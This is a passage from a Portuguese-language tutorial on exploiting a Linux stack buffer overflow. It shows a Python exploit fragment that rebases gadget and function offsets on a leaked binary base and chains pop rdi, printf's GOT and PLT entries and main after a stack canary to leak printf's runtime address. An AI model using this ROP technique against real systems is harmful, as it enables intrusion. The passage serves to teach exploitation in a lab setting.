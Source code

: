 Todos estes *offsets* podem ser convertidos em endereços reais em tempo de execução, ao somá-los com o endereço base do binário que já é calculado com o *exploit*. Com estas instruções, é possível atualizar o script com os seguintes comandos:

```python
#Encontrando a Instrução Assembly no binário
#ROPgadget --binary prog --ropchain | grep rdi
pop_rdi = 0x12db + elf_base

#Encontrando offset da funcao printf
#objdump -d -M intel prog | grep printf
printf_got = 0x4028 + elf_base
printf_plt = 0x1050 + elf_base

#Encontrando o offset dafuncao main
#objdump -d -M intel prog | grep main
main = 0x1224 + elf_base

#Criando o payload
payload = CANARY
payload += p64(pop_rdi)
payload += p64(printf_got)
payload += p64(printf_plt)
payload += p64(main)

#Enviando o payload
p.send(payload)
#Recebendo a primeira linha
p.recv(1024)
#Recebendo a segunda linha
p.recv(1024)
#Salvando a terceira linha com o endereco da funcao PRINTF
elf_printf = p.recv(1024)
elf_printf = elf_printf.replace(b"Preencha meu buffer:", b"").strip()
elf_printf = u64(elf_printf.ljust(8, b"\x00"))[0]
print(f"[+] ELF PRINTF @ {hex(elf_printf)}")

```

Ao executar o exploit, é possível obter os endereços necessário para finalizar a exploração:

![Endereço da função printf em tempo de execução.](/img/std/linbof/exploit-6.png)
